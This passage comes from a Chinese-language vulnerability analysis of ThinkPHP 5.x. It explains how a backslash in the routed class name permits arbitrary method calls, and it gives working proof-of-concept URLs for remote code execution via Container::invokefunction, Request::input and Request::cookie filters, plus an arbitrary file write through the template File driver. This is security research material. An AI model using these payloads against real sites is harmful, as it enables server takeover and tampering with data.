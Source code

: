 ![image-20210222221052520](https://raw.githubusercontents.com/Anthem-whisper/imgbed/master/img/20210312150405.png)

这个方法先对`$name`(类名)进行判断，当`$name`含有`\`时会直接将其作为类的命名空间路径，导致我们可以任意方法调用，比如：

* thinkphp/library/think/Container.php：

![image-20210223112805010](https://raw.githubusercontents.com/Anthem-whisper/imgbed/master/img/20210312150430.png)

```
http://127.0.0.1/public/index.php?s=index/think\Container/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=1
```

通过自动加载的特性，`think\Container`可以直接调用thinkphp/library/think/Container.php的危险方法`invokefunction`，造成RCE。

* thinkphp/library/think/Request.php:

![image-20210223113330871](https://raw.githubusercontents.com/Anthem-whisper/imgbed/master/img/20210312150418.png)

因为是private，所以查找同一类里面的用例：

1. Request::input方法：

![image-20210223113649493](https://raw.githubusercontents.com/Anthem-whisper/imgbed/master/img/20210312150443.png)

构造poc：

```
http://127.0.0.1/public/index.php?s=index/think\request/input&data=1&filter=phpinfo&name=
```

2. Request::cookie方法：

![image-20210223114040419](https://raw.githubusercontents.com/Anthem-whisper/imgbed/master/img/20210312150457.png)

构造poc：

 ```
http://127.0.0.1/public/?s=index/think\request/cookie&name=cmd&filter=phpinfo
[HTTP header]
Cookie: cmd=1
 ```

同样成功RCE。

* thinkphp/library/think/template/driver/File.php:

![image-20210223130238959](https://raw.githubusercontents.com/Anthem-whisper/imgbed/master/img/20210312150511.png)

构造poc：

```
http://127.0.0.1/public/?s=index/think\template\driver\file/write&cacheFile=/tmp/test.txt&content=hacked
```

成功写入/tmp/test.txt文件。

### 5.0.x类名解析
